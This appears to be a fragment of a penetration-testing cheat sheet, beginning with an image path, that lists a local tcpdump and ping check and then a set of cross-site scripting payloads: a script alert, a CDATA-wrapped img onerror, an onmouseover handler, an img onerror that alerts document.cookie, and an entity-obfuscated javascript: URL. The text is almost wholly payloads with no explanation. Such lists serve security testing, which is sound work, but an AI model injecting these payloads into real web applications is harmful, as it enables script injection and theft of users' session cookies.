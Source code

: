 ```
local:
tcpdump

ping <local ip>
```

```
<script>alert("TEST");</script>
```

### Dom XSS
```
<![CDATA[><img src onerror=alert(1)]]>
```

```
<b onmouseover=alert('Wufff!')>click me!</b>
```

```
`<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>`
```

```
`<IMG SRC=j&#X41vascript:alert('test2')>`
```